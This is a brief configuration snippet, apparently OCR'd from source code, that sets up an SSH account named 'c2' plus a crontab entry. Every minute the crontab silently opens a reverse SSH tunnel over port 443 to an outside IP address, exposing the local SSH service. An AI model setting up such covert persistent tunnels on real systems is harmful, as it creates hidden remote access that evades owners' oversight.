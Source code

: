 # Server: /etc/ssh/sshd_config.
Match User c2
  AuthenticationMethods   publickey
  HostbasedAuthentication no
  RhostsRSAAuthentication no
  GSSAPIAuthentication    no
  PasswordAuthentication  no
  AllowAgentForwarding    no
  GatewayPorts            no
  X11Forwarding           no
  AllowTcpForwarding      yes
  Banner                  none
  ForceCommand            /sbin/nologin
  PermitOpen              172.16.7.131:2224

## Client: /etc/ssh/sshd_config.

```
ClientAliveInterval 20
ClientAliveCountMax 3
AllowUsers c2@127.0.0.1
```

### crontab.
```
MAILTO=""
* * * * * (ssh -p 443 -fNR 127.0.0.1:4450:127.0.0.1:22 c2@197.15.100.245 &>/dev/null &)  
```


